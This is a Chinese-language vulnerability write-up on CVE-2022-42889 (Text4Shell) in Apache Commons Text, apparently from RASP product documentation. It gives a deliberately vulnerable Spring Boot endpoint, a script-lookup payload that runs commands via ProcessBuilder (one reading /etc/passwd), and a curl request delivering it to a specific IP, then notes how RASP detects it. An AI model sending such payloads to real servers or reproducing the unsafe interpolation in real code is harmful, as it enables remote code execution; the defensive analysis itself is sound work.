 # CVE-2022-42889

## 漏洞简介
10 月 13 日，Apache Commons Text 官方通过公开邮件列表发布安全公告，针对一处远程代码执行漏洞进行修复，漏洞编号为 CVE-2022-42889：
https://lists.apache.org/thread/n2bd4vdsgkqh2tm14l1wyc3jyol7s1om

Apache Commons Text 是一个专注于字符串算法的 Java 第三方开源库。Apache Commons Text 可以执行字符串变量插值替换，从而可以对字符串进行动态解析和扩展。

而从 1.5开始直到 1.9 版本，Apache Commons Text 在进行字符串变量插值解析替换时默认包含某些危险的 Lookup 实例机制，从而导致安全漏洞（CVE-2022-42889）。

当开发者使用 Apache Commons Text 对由外部用户输入的数据进行字符串动态解析替换时，攻击者可通过利用此漏洞，在目标服务器上造成远程代码执行、服务端请求伪造（SSRF）等危害。

## 影响版本

1.5 <= Apache Commons Text <= 1.9

官方目前已经发布新版 1.10.0，用户可更新到此版本进行漏洞修复。

## 环境搭建

创建 springboot 工程，关键代码
```java
    @PostMapping("/CVE-2022-42889.do")
    public String CVE_2022_42889(String text) throws Exception {
        StringSubstitutor stringSubstitutorInterpolator = StringSubstitutor.createInterpolator();
        // String payload = "${script:js:new java.lang.ProcessBuilder(\"cat /etc/passswd\").start()}";
        String replace = stringSubstitutorInterpolator.replace(text);
        return replace;
    }
```

依赖版本：1.9
```java
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-text</artifactId>
    <version>1.9</version>
</dependency>
```

## 漏洞触发

![img.png](../.vuepress/public/images/case/CVE-2022-42889/img.png)

请求：
```java
curl --location --request POST 'http://111.229.199.6:8080/CMD/CVE-2022-42889.do' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'text=${script:js:new java.lang.ProcessBuilder(\"pwd\").start()}'
```


## RASP 检测

![img_1.png](../.vuepress/public/images/case/CVE-2022-42889/img_1.png)

详情：
![img_2.png](../.vuepress/public/images/case/CVE-2022-42889/img_2.png)

## 说明

+ 尽管该依赖jar使用较少，但是漏洞利用简单，并且可以执行任意代码，有一定影响。

+ 检测模块与算法： 包括字符串长度限制与类黑名单；

+ 临时性的热补丁，用户无需重启；
